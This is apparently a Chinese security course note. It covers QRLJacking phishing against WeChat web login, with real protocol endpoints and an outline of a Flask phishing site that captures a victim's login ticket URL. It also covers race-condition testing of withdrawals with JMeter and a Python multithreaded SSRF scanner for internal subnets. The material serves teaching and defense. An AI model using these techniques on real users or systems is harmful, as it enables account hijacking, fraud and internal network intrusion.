# 课程P1：多线程技术与QRLJacking攻击 🔐

在本节课中，我们将学习两种重要的网络安全技术：**QRLJacking（二维码劫持）攻击**的原理与实现，以及**多线程并发漏洞**的发现与利用。课程内容分为两大独立部分，我们将逐一深入探讨。

## 第一部分：QRLJacking攻击详解 🎯

上一节我们介绍了课程的整体结构，本节中我们来看看第一部分的核心内容：QRLJacking攻击。

### 什么是QRLJacking？

QRLJacking是一种网络钓鱼攻击手段。其中，QR代表二维码（Quick Response），L代表登录（Login），Jacking意为劫持。因此，QRLJacking即**二维码登录劫持**。

它主要劫持那些采用“安全快速响应登录”（Secure Quick Response Login）机制的网页端二维码，例如微信网页版、QQ快捷登录等。

### QRLJacking攻击原理

攻击者首先需要建立一个合法的客户端会话（例如微信网页版），并获取该会话的二维码。攻击者将此二维码复制到其搭建的钓鱼网站上，并将钓鱼链接发送给受害者。



以下是攻击的核心步骤：





1.  受害者相信并打开钓鱼网站，使用手机APP扫描网站上的二维码。
2.  由于钓鱼网站上的二维码与攻击者客户端上的二维码相同，手机APP会将认证令牌（Token）发送给目标服务。
3.  这个认证过程实际上是由攻击者的客户端会话完成的。
4.  最终，攻击者作为客户端会话的发起者，获得了受害者账号的控制权，并可以窃取受害者的数据。



传统的QRLJacking（一对一实时钓鱼）存在局限性，因此演变出了“撒网式”的QRLJacking（Netting QRLJacking），可以同时针对多个潜在受害者。

### 技术实现与协议分析

在实现攻击时，我们遇到了技术挑战。最初尝试使用`WXPY`模块模拟微信客户端，但因其阻塞式执行（必须等待上一条命令执行完毕）的特性，无法与Web框架（如Flask）协同工作。

因此，我们需要自行分析微信网页端的登录协议。关键点在于获取构成二维码核心的**UUID**。

**1. 获取UUID的接口**
这是一个POST请求，用于获取唯一的会话标识。
```http
POST https://login.wx.qq.com/jslogin
```
请求正文示例：
```
appid=wx782c26e4c19acffb&redirect_uri=https%3A%2F%2Fwx.qq.com%2Fcgi-bin%2Fmmwebwx-bin%2Fwebwxnewloginpage&fun=new&lang=zh_CN&_=1646384256781
```

**2. 获取二维码的接口**
获得UUID后，可拼接出获取二维码图片的地址。
```
https://login.weixin.qq.com/qrcode/{UUID}
```

**3. 监听登录状态的接口**
这是一个轮询接口，用于监听用户是否扫描及确认登录。
```
https://login.wx.qq.com/cgi-bin/mmwebwx-bin/login?loginicon=true&uuid={UUID}&tip=0&_=1646384256782
```
该接口会返回不同的状态码（Code）：
*   `window.code=201;`：扫描成功。
*   `window.code=200;`：用户在手机端点击确认登录，并返回一个**用户凭证链接**。
*   `window.code=408;`：等待扫描。
*   `window.code=400;`：二维码已过期。




攻击的关键在于：当返回`code=200`时，响应中会包含一个形如`window.redirect_uri=”https://wx.qq.com/cgi-bin/mmwebwx-bin/webwxnewloginpage?ticket=...&uuid=...&lang=...&scan=...”`的链接。任何人访问此链接，即可直接登录受害者的微信网页版。


### 攻击Demo实现简述

基于以上分析，可以使用Python的Flask框架构建一个钓鱼网站。

**后端核心逻辑：**
1.  **主页路由 (`/`)**：调用获取UUID的接口，并将UUID渲染到前端模板。
2.  **二维码状态轮询路由 (`/qrcode`)**：前端通过AJAX不断请求此路由。后端使用获取的UUID去请求微信的监听接口，并根据返回的`code`值判断状态，将结果（如头像、登录确认链接）返回给前端。
3.  当检测到`code=200`时，后端捕获到用户凭证链接，攻击者即可利用此链接控制受害者账号。

**前端核心逻辑：**
1.  使用``标签加载由后端生成的二维码图片。
2.  使用JavaScript轮询后端状态接口。
3.  根据后端返回的状态码，动态更新页面（如显示“扫描成功”、用户头像），并在最终跳转时引导用户。

---

## 第二部分：多线程技术的应用 ⚡

上一节我们深入探讨了QRLJacking攻击，本节中我们来看看另一个主题：多线程技术在安全测试中的应用。

### 多线程并发漏洞



**并发**是指多个操作同时发生。在Web业务中，例如用户提款，正常流程是：发起请求 -> 后台校验并扣款 -> 完成。但如果用户利用工具**同时发起多个提款请求**（并发请求），而服务器端逻辑没有做好并发控制（如锁机制），就可能出现只校验一次余额却扣款多次的情况，导致资产损失，这就是**并发漏洞**。

**多线程**是实现并发的一种技术手段。一个程序（进程）可以包含多个线程，每个线程独立执行任务，从而加快整体运行速度。例如，下载工具同时下载多个文件块。

### 并发漏洞的发现与利用

**漏洞易发点**：所有涉及数据交互且可能引起状态变化的环节，如支付、提现、兑换积分、申请退款、修改库存等。

**测试工具**：常用工具有Apache JMeter（用于模拟高并发请求）和Burp Suite的Intruder模块。



**测试流程案例**：
1.  在网站找到“申请提现”功能。
2.  输入金额并提交，使用抓包工具拦截请求。
3.  将请求发送到JMeter。
4.  在JMeter中设置线程组（模拟用户数）、循环次数，并将间隔时间设为0以实现严格并发。
5.  添加HTTP请求，配置好目标地址、路径、参数及Cookie（保持会话）。
6.  添加监听器查看结果。
7.  启动测试，观察是否成功并发提现多次。

### 多线程在SSRF漏洞利用中的优势

SSRF（服务器端请求伪造）漏洞允许攻击者诱使服务器向内部或其它系统发起请求。常出现在加载远程图片、文件下载等功能处。

一个典型的SSRF漏洞参数可能如下：
```
http://vulnerable-site.com/loadImage?url=http://attacker-controlled.com/image.jpg
```



**利用SSRF可以：**
*   探测内网存活主机和开放端口。
*   识别内网服务指纹。
*   攻击内网脆弱服务（如Redis未授权访问、Struts2命令执行等）。

**多线程的优势**：在利用SSRF进行内网探测或漏洞扫描时，使用多线程可以极大提高效率。单线程按顺序逐个探测IP或端口速度缓慢，而多线程可以同时发起数十上百个探测请求，快速绘制内网地图或发现漏洞。

**实现方式：**
1.  **使用JMeter**：配置多个线程同时访问存在SSRF的URL，参数为不同的内网IP地址。
2.  **使用Python多线程编程**：
    ```python
    import threading
    import queue
    import urllib.request
    import time

    def worker():
        while True:
            url = q.get() # 从队列获取任务
            try:
                resp = urllib.request.urlopen(url, timeout=3)
                print(f"[+] Found: {url}")
            except:
                pass
            finally:
                q.task_done() # 标记任务完成

    # 创建任务队列
    q = queue.Queue()
    # 定义要探测的URL列表（例如内网IP段）
    for i in range(1, 255):
        q.put(f"http://vulnerable-site.com/ssrf.php?url=http://192.168.1.{i}")

    # 启动多个线程
    for _ in range(30): # 创建30个线程
        threading.Thread(target=worker, daemon=True).start()
    q.join() # 等待所有任务完成
    ```
    通过对比，多线程脚本能在数秒内完成单线程需要数分钟才能完成的内网C段扫描。



---



## 课程总结 📝





本节课中我们一起学习了两个重要的网络安全议题。

在第一部分，我们深入剖析了**QRLJacking攻击**。我们了解了其作为一种二维码登录劫持的钓鱼手段的原理，从传统的“一对一”攻击发展到“撒网式”攻击。通过分析微信网页端的登录协议（获取UUID、二维码、监听状态），我们理解了攻击实现的关键技术细节，并概述了如何利用Flask框架构建一个完整的攻击演示实例。

在第二部分，我们探讨了**多线程技术的应用**。我们首先学习了多线程并发漏洞的成因、易发点及利用方法，并使用JMeter工具进行了演示。接着，我们介绍了SSRF漏洞，并重点展示了如何利用多线程技术大幅提升SSRF在内网探测、端口扫描及漏洞利用方面的效率，通过Python代码实例说明了多线程带来的巨大优势。



通过本课程的学习，希望大家不仅能理解这些攻击技术的原理，更能认识到安全防护中并发控制、输入校验的重要性，以及攻击者如何利用高效的技术手段扩大攻击面。